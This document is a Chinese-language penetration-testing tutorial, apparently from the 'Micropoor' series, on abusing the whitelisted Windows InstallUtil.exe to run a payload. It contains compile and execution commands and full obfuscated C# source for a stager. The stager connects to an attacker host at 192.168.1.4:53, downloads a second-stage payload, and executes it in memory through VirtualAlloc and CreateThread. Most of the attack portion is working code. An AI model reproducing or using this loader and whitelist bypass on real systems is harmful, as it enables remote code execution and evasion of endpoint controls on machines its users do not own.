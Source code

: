 
### Installutil简介：

Installer工具是一个命令行实用程序，允许您通过执行指定程序集中的安装程序组件来安装和卸载服务器资源。此工具与System.Configuration.Install命名空间中的类一起使用。
具体参考：Windows Installer部署
https://docs.microsoft.com/zh-cn/previous-versions/2kt85ked(v=vs.120)

**说明：**Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

基于白名单installutil.exe配置payload：

Windows 7 默认位置：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](/img/dc56fe8b83b82c65150ac6715d296968.jpg)

### 靶机执行：

### 靶机编译：
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Mic opoor.exe /keyfile:C:\Users\John\Desktop\installutil.snk /unsafe C:\Users\John\Desktop\installutil.cs
```
![](/img/86a0962a09b6e1f14b90d523abc1e0f8.jpg)

**payload：**  
Micropoor.exe  
![](/img/380382cb9c51c0a16a3d13b0b023985a.jpg)

**靶机执行：**
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```
![](/img/8e03a632f426c981eaec67817eea1469.jpg)

### 附录：Micropoor.cs
**注：x64 payload**

```csharp
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.Configuration.Install; using System.Windows.Forms;

public class GQLBigHgUniLuVx {

public static void Main()

{

while(true)

{{ MessageBox.Show("doge"); Console.ReadLine();}}

}

} 

[System.ComponentModel.RunInstaller(true)]

public class esxWUYUTWShqW : System.Configuration.Install.Installer

{

public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)

{

jkmhGrfzsKQeCG.LCIUtRN();

}

} 

public class jkmhGrfzsKQeCG

{ [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);

static byte[] ErlgHH(string ZwznjBJY, int KsMEeo) {

IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);

Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }

catch { return null;}

byte[] UmquAHRnhhpuE = new byte[4];

XXxIoIXNCle.Receive(UmquAHRnhhpuE, 4, 0);

int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE, 0);

byte[] qaYyFq = new byte[kFVRSNnpj + 5];

int SRCDELibA = 0;

while (SRCDELibA < kFVRSNnpj)

{ SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA + 5, (kFVRSNnpj ‐ SRCDELibA) < 4096 ? (kFVRSNnpj ‐ SRCDELibA) : 4096, 0);}

byte[] TvvzOgPLqwcFFv = BitConverter.GetBytes((int)XXxIoIXNCle.Handle);

Array.Copy(TvvzOgPLqwcFFv, 0, qaYyFq, 1, 4); qaYyFq[0] = 0xBF;

return qaYyFq;}

static void cmMtjerv(byte[] HEHUjJhkrNS) {

if (HEHUjJhkrNS != null) {

UInt32 WcpKfU = VirtualAlloc(0, (UInt32)HEHUjJhkrNS.Length, 0x1000, 0x40);

Marshal.Copy(HEHUjJhkrNS, 0, (IntPtr)(WcpKfU), HEHUjJhkrNS.Length);

IntPtr UhxtIFnlOQatrk = IntPtr.Zero;

UInt32 wdjYKFDCCf = 0;

IntPtr XVYcQxpp = IntPtr.Zero;

UhxtIFnlOQatrk = CreateThread(0, 0, WcpKfU, XVYcQxpp, 0, ref wdjYKFDCCf);

WaitForSingleObject(UhxtIFnlOQatrk, 0xFFFFFFFF); }} 

public static void LCIUtRN() {

byte[] IBtCWU = null; IBtCWU = ErlgHH("192.168.1.4", 53);

cmMtjerv(IBtCWU);

} }


```

>installutil.snk 596B  

>   Micropoor
